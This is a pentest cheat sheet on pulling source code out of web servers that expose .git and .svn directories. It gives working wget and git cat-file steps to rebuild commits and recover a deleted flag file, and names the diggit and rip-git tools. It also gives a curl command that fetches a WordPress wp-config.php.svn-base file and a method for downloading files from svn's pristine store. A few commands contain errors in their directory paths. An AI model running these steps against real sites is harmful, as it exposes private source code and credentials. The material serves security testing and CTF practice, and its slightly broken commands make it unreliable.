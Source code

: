 # GIT - Source management

Github example
1. Check 403 error (Forbidden) for .git

2. Git saves all informations in log file .git/logs/HEAD (try 'head' too)
```
0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
```

3. Access to the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c, 
```
# create a .git directory
git init test
cd test/.git

# download the file
wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
mkdir .git/object/26
mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

# display the content of the file
git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
	tree 323240a3983045cdc0dec2e88c1358e7998f2e39
	parent 15ca375e54f056a576905b41a417b413c57df6eb
	author Michael <michael@easyctf.com> 1489390329 +0000
	committer Michael <michael@easyctf.com> 1489390329 +0000
	Initial.
```

4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
```
wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
mkdir .git/object/32
mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
	040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
	100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
	040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
	100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
	040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
```

5. Read the data (flag.txt)
```
wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
mkdir .git/object/cb
mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
```



5. Alternative way : diggit.py
```
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

5. Alternative way : rip-git
```
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"   

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```




# SVN - Source management
SVN example (Wordpress)
```
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database
http://server/path_to_vulnerable_site/.svn/wc.db
```
INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
```

2. Download interesting files
remove $sha1$ prefix
add .svn-base postfix
use first two signs from hash as folder name inside pristine/ directory (94 in this case)
create complete path, which will be: http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base


## Thanks to
* bl4de, https://github.com/bl4de/research/tree/master/hidden_directories_leaks
* bl4de, https://github.com/bl4de/security-tools/tree/master/diggit